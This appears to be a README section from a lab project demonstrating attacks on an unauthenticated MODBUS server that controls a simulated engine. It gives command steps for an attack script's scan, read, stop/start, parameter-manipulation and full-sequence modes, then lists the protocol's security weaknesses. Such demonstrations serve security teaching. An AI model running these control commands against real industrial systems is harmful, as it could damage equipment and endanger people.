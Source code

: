 ## Attack Demonstration Steps

### Step 1: Setup Verification
1. Ensure Linux VM is running the MODBUS server
2. Verify Windows VM bridge is running
3. Confirm frontend can control the engine
4. Note the Linux VM's IP address

### Step 2: Reconnaissance
```bash
python host_attack_script.py <LINUX_VM_IP> --attack scan
python host_attack_script.py <LINUX_VM_IP> --attack read
```

### Step 3: Vulnerability Demonstration
```bash
# Show unauthorized control access
python host_attack_script.py <LINUX_VM_IP> --attack stop
python host_attack_script.py <LINUX_VM_IP> --attack start

# Show parameter manipulation
python host_attack_script.py <LINUX_VM_IP> --attack params

# Show continuous interference
python host_attack_script.py <LINUX_VM_IP> --attack monitor
```

### Step 4: Full Attack Sequence
```bash
python host_attack_script.py <LINUX_VM_IP> --attack full
```

## Security Implications Demonstrated

### 1. No Authentication
- Anyone on the network can send commands
- No username/password required
- No access control mechanisms

### 2. No Encryption
- All MODBUS traffic is unencrypted
- Commands can be intercepted and modified
- No confidentiality protection

### 3. No Input Validation
- Dangerous parameter values accepted
- No range checking on critical values
- Engine can be damaged by malicious inputs
